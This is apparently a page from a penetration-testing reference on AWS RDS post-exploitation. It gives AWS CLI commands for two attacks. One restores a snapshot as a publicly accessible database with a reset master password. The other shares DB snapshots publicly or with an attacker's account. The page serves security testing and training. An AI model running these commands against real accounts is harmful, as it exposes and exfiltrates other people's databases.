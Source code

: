 # AWS - RDS Post Exploitation

## RDS

For more information check:

[[../../aws-services/aws-relational-database-rds-enum.md]]

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

If the attacker has enough permissions, he could make a **DB publicly accessible** by creating a snapshot of the DB, and then a publicly accessible DB from the snapshot.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

An attacker with these permissions could **create an snapshot of a DB** and make it **publicly** **available**. Then, he could just create in his own account a DB from that snapshot.

If the attacker **doesn't have the `rds:CreateDBSnapshot`**, he still could make **other** created snapshots **public**.

```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
